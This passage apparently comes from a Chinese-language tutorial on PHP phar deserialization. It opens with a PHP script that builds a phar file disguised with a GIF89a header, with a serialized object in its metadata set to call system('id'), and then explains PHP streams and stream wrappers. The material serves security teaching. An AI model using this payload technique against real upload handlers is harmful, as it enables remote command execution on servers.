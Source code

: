 生成payload代码：

```php
<?php
class test{
var $code;
var $m;
function __construct($code, $m){
$this->code = $code;
$this->m = $m;
}
}
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub, 增加gif文件头，伪造文件类型
$o = new test('id','system');//反序列对象
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

注意：要生成phar文件，需要设置php.ini phar.readonly配置项为Off

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvr6aa2zjj20na0k2abm.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvr6h135rj21d70alwft.jpg)



## **0X06 从 PHP 源码探索 phar 利用成功的深层原因**

本文本来到上一个小结对PHP 反序列化的整个的分析就结束了，可我突然又想起来了前段时间看到了 @ZSX 大师傅的一片[文章](https://blog.zsxsoft.com/post/38?from=timeline&isappinstalled=0)，于是打算从师父哪里学姿势，正好弥补一下我对 PHP 底层肤浅的认识,所以我们继续~~

### **1.先介绍 PHP 流的概念**

流的作用是在出发地和目的地之间传输数据。出发地和目的地可以是文件、命令行进程、网络连接、ZIP 或 TAR 压缩文件、临时内存、标准输入或输出，或者是通过 **PHP 流封装协议**实现的任何其他资源。

如果你读写过文件，就用过流；如果你从 php://stdin 读取过数据，或者把输入写入 php://stdout，也用过流。流为 PHP 的很多 IO 函数提供了底层实现，如 file_get_contents、fopn、fread 和 fwrite 等。**PHP 的流函数提供了不同资源的统一接口。**

我们可以把流比作管道，把水（资源数据）从一个地方引到另一个地方。在水从出发地到目的地的过程中，我们可以过滤水，可以改变水质，可以添加水，也可以排出水。

### **2.介绍流封装协议（wrapper）：**

因为流式数据的种类各异，而每种类型需要独特的协议，以便读写数据，我们称这些协议为流封装协议。例如，我们可以读写文件系统，可以通过 HTTP、HTTPS 或 SSH 与远程 Web 服务器通信，还可以打开并读写 ZIP、RAR 或 PHAR 压缩文件

虽然过程是一样的，但是读写文件系统中文件的方式与收发 HTTP 消息的方式有所不同，流封装协议的作用是使用通用的接口封装这种差异。

每个流都有一个协议和一个目标。指定协议和目标的方法是使用流标识符：`<scheme>://<target>`，其中 `<scheme>` 是流的封装协议，`<target>` 是流的数据源。
